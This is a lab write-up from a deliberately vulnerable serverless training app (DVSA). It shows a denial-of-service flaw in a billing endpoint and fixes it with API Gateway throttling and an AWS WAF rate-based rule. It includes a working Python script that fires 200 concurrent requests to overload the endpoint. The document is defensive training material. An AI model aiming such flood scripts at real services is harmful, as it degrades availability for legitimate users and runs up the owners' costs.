





# Lesson 6: Denial of Service (DoS)

## 1. Vulnerability Summary

This lesson demonstrates a **Denial of Service (DoS)** vulnerability in the DVSA billing system.

By sending a large number of concurrent requests to the billing API, the backend becomes overloaded, causing:
- Slow response times
- Server errors (500 / 502)
- Failure to serve legitimate users

The affected component is the `POST /dvsa/order` billing endpoint. The weakness exists because there is no rate limiting at the API Gateway level and no traffic filtering to block excessive requests.

---

## 2. Root Cause

The backend lacked proper request control mechanisms:
- No rate limiting at API Gateway
- No traffic filtering (AWS WAF)
- Unlimited concurrent request handling

### Why the attack works

When multiple requests are sent at the same time (e.g., 200 concurrent threads), the system cannot process them fast enough:
- AWS Lambda has a limited concurrent execution capacity
- API Gateway forwards all requests without restriction
- Backend resources (CPU, memory, database connections) get saturated

As a result:
- Some requests succeed (200 OK)
- Many fail (500 / 502)
- Response time increases significantly

---

## 3. Environment

| Item | Value |
|---|---|
| Application | DVSA |
| AWS Region | `us-east-1` |
| API Endpoint | `POST https://<api-id>.execute-api.us-east-1.amazonaws.com/dvsa/order` |
| AWS Services | API Gateway, AWS Lambda, DynamoDB |
| Tools Used | Python 3 (`requests`, `threading`), Postman, Browser DevTools (Chrome) |

---

## 4. Prerequisites

Before starting:

1. Install Python 3
2. Install the required library:

```bash
pip install requests
```

3. Have access to the DVSA application with a valid user account
4. Have a placed order ready (with a valid `order-id`)

---

## 5. Step-by-Step Reproduction

### Step 1: Create a New Order

1. Open the DVSA application in your browser
2. Add a product to the cart
3. Proceed to checkout — stop before completing billing (you need the `order-id`)

---

### Step 2: Capture a Valid Billing Request

1. Open Chrome DevTools (`F12`) → **Network** tab
2. Perform the billing action on the checkout page
3. Find the `POST /dvsa/order` request
4. Copy:
   - `Authorization` header value (your JWT token)
   - `order-id` from the request body

---

### Step 3: Verify a Single Request Works (Baseline)

Send a single billing request in Postman to confirm the endpoint works normally.

**Method:** `POST`  
**URL:** `https://<api-id>.execute-api.us-east-1.amazonaws.com/dvsa/order`

**Headers:**
```
Authorization: <your_token>
Content-Type: application/json
```

**Body:**
```json
{
  "action": "billing",
  "order-id": "<your_order_id>",
  "data": {
    "ccn": "4000056655665556",
    "exp": "03/28",
    "cvv": "232"
  }
}
```

**Expected Response (200 OK):**
```json
{"status": "err", "msg": "order already made"}
```

This confirms the endpoint is healthy under normal load.

 **Evidence:**



---

### Step 4: Run the DoS Attack Script

The script ([`dos_test.py`](dos_test.py)) spawns **200 concurrent threads**, each sending the same billing request at once.

Open the file and replace `<TOKEN>` and `<ORDER_ID>` with your captured values, then run:

```bash
python dos_test.py
```

The full script:

```python
import threading
import requests

url = "https://<api-id>.execute-api.us-east-1.amazonaws.com/dvsa/order"

headers = {
    "Authorization": "<TOKEN>",
    "Content-Type": "application/json"
}

payload = {
    "action": "billing",
    "order-id": "<ORDER_ID>",
    "data": {
        "ccn": "4242424242424242",
        "exp": "03/28",
        "cvv": "123"
    }
}

def send_request(i):
    try:
        response = requests.post(url, json=payload, headers=headers)
        print(f"Request {i}: {response.status_code} - {response.text[:60]}")
    except Exception as e:
        print(f"Request {i}: ERROR - {e}")

threads = []
for i in range(200):
    t = threading.Thread(target=send_request, args=(i,))
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

---

### Step 5: Observe the Attack Result (Before Fix)

**Expected output:**
- Some requests → `200 OK`
- Many requests → `500 Internal Server Error` / `502 Bad Gateway`
- Increased response latency (~9 seconds)

This confirms the backend is overloaded and the system is unstable.

 **Evidence:**



---

## 6. Fix Strategy

Two layers of protection were applied:

1. **API Gateway Throttling** — Limit how many requests per second reach the backend
2. **AWS WAF Rate-Based Rule** — Block any IP that sends too many requests in a short window

---

## 7. Configuration Changes

### Change 1: API Gateway Stage Throttling

Go to: **API Gateway → Stages → Stage → Edit → Default Route Throttling**

| Setting | Before | After |
|---|---|---|
| Rate (req/s) | 10000 | **5** |
| Burst | 5000 | **10** |

**Before:**



**After:**



---

### Change 2: AWS WAF Rate-Based Rule

1. Go to **AWS WAF → Web ACLs → Create Web ACL**
2. Associate it with your API Gateway stage
3. Add a **Rate-based rule**:
   - Rule name: `BlockHighRateIPs`
   - Rate limit: `100` requests per 5 minutes per IP
   - Action: `Block`
4. Save and deploy

> No Lambda function code was changed — the fix is entirely at the infrastructure level.

---

## 8. Verification After Fix

Re-run the same script:

```bash
python dos_test.py
```

**Expected output (after fix):**

All 200 concurrent requests now return `403 Forbidden` — WAF blocks the flood before it reaches the backend.

```json
{"message": "Forbidden"}
```

**Evidence:**



**What changed:** Before the fix, the backend received all 200 requests and crashed. After the fix, WAF intercepts the flood and the throttling limit prevents any burst from getting through. A single legitimate billing request still works normally.

---

## 9. Security Analysis

### Intended Logic

Under normal conditions, a user sends **one billing request** per order. The expected flow:

```
Browser → API Gateway → Lambda (billing) → DynamoDB (update order)
```

**Security rules the system must enforce:**
- Limit the number of requests any single client can send per unit time
- Keep the billing endpoint available for all legitimate users
- Protect backend resources from intentional exhaustion

---

### Table 1 — Intended vs. Observed Behavior

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
|---|---|---|---|---|
| DoS via concurrent billing requests | System must limit excessive requests and prevent resource exhaustion | Browser DevTools, Python script output, API responses, WAF config screenshots | Single billing request → `200 OK`, payment processed correctly | 200 concurrent requests → mix of `500`/`502` errors, backend unstable (`step5_dos_attack_output.png`) |

---

### Table 2 — Deviation Analysis and Fix

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied | Post-Fix Verification | Latency |
|---|---|---|---|---|---|
| DoS via concurrent billing requests | System allowed unlimited concurrent requests, violating the rule of controlled fair usage. Legitimate users could not complete payments during the attack. | Accidental Misconfiguration | API Gateway throttling (Rate: 5, Burst: 10) + AWS WAF rate-based rule (100 req / 5 min per IP) | All 200 requests return `403 Forbidden` after fix. Single normal request still returns `200 OK`. | Slight increase in response filtering time due to WAF inspection (acceptable overhead) |

---

## 10. Lessons Learned

The core problem was assuming all incoming requests are legitimate — without enforcing that assumption technically.

In a serverless environment this is especially dangerous: Lambda auto-scales to absorb traffic, which means an attacker can drive up your AWS bill while also degrading service for real users.

The key lesson is **defense in depth at the infrastructure level**: throttling at API Gateway stops floods before they reach Lambda; WAF adds a second layer to block offending IPs. Neither requires any application code changes — serverless security is not only about writing secure Lambda functions, but equally about how you configure the infrastructure around them.

---

## Repository Structure

```
lesson6_dos/
│
├── README.md                        ← This file
├── dos_test.py                      ← DoS attack script (replace TOKEN and ORDER_ID before running)
└── evidence/
    ├── step3_normal_request.png     ← Baseline: single request returns 200 OK
    ├── step5_dos_attack_output.png  ← Attack: 500/502 errors under concurrent load
    ├── api_gateway_before.png       ← API Gateway stage settings before fix
    ├── api_gateway_after.png        ← API Gateway stage settings after fix (Rate: 5, Burst: 10)
    └── waf_block.png                ← Post-fix: all flood requests return 403 Forbidden
```